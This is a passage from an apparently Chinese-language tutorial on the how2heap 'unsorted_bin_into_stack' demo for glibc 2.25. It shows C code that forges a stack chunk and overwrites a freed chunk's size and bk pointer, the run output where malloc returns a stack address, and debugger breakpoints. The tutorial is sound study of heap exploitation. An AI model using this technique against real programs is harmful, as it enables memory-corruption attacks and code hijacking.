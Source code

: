 ```
  fprintf(stderr, "Set size for next allocation and the bk pointer to any writable address");
  stack_buffer[1] = 0x100 + 0x10;
  stack_buffer[3] = (intptr_t)stack_buffer;

  //------------VULNERABILITY-----------
  //现在假设我们有一个漏洞可以让我们覆写victim-&gt;size和victim-&gt;bk指针
  fprintf(stderr, "Now emulating a vulnerability that can overwrite the victim-&gt;size and victim-&gt;bk pointern");
  //size必须和下一个请求的size不同以返回一个fake_chunk并且需要bypass 2*SIZE_SZ&gt;16 &amp;&amp; 2*SIZE&lt;av-&gt;system-&gt;mem 的检查
  fprintf(stderr, "Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (&gt; 16 on x64) &amp;&amp; &lt; av-&gt;system_memn");
  victim[-1] = 32;
  victim[1] = (intptr_t)stack_buffer; // victim-&gt;bk is pointing to stack
  //------------------------------------

  //现在我们就可以返回我们的fake_chunk了
  fprintf(stderr, "Now next malloc will return the region of our fake chunk: %pn", &amp;stack_buffer[2]);
  fprintf(stderr, "malloc(0x100): %pn", malloc(0x100));
`}`
```

### <a class="reference-link" name="%E8%BF%90%E8%A1%8C%E7%BB%93%E6%9E%9C"></a>运行结果

```
root@284662b4a7a3:~/how2heap/glibc_2.25# ./unsorted_bin_into_stack
Allocating the victim chunk
Allocating another chunk to avoid consolidating the top chunk with the small one during the free()
Freeing the chunk 0x1078010, it will be inserted in the unsorted bin
Create a fake chunk on the stackSet size for next allocation and the bk pointer to any writable addressNow emulating a vulnerability that can overwrite the victim-&gt;size and victim-&gt;bk pointer
Size should be different from the next request size to return fake_chunk and need to pass the check 2*SIZE_SZ (&gt; 16 on x64) &amp;&amp; &lt; av-&gt;system_mem
Now next malloc will return the region of our fake chunk: 0x7ffda9d27830
malloc(0x100): 0x7ffda9d27830
```

### <a class="reference-link" name="%E5%85%B3%E9%94%AE%E4%BB%A3%E7%A0%81%E8%B0%83%E8%AF%95"></a>关键代码调试

本例我一共下了五个断点

```
12   intptr_t* p1 = malloc(0x100);
   13
 ► 14   fprintf(stderr, "Freeing the chunk %p, it will be inserted in the unsorted binn", victim);

   15   free(victim);
   16
 ► 17   fprintf(stderr, "Create a fake chunk on the stack");

   19   stack_buffer[1] = 0x100 + 0x10;
   20   stack_buffer[3] = (intptr_t)stack_buffer;
   21
   22   //------------VULNERABILITY-----------
 ► 23   fprintf(stderr  , "Now emulating a vulnerability that can overwrite the victim-&gt;size and victim-&gt;bk pointern");

   25   victim[-1] = 32;
   26   victim[1] = (intptr_t)stack_buffer; // victim-&gt;bk is pointing to stack
   27   //------------------------------------
   28
```